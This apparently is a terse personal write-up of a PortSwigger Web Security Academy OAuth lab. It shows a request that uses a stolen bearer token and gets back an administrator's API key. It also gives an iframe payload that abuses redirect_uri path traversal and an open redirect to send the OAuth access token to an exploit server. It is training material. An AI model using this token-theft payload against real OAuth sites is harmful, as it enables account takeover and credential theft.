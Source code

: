 GET /me HTTP/1.1
..
Authorization: Bearer ZHvzcAGdTG-rdfXAsZXbBpiuNAQq0L_F5C70CgGBwbB

response:
HTTP/1.1 200 OK
..

{"sub":"administrator","apikey":"TE1YFcPrsg9X1behDDqIeYAYn79O2cgQ","name":"Administrator","email":"administrator@normal-user.net","email_verified":true}

# solved

iframe didnt work. since linked informatio came as a frag (#) and not param (?)
<iframe src='https://oauth-0adb00460487a6c3c0392e5f02110022.web-security-academy.net/auth?client_id=do56u1zrsd8zhv08oimzq&redirect_uri=https://0a1a000f047ca6e6c0762eaf00c6002e.web-security-academy.net/oauth-callback/../post/next?path=https://exploit-0a83009b04d7a673c0362e2401f00036.web-security-academy.net/exploit&response_type=token&nonce=884658517&scope=openid%20profile%20email'>


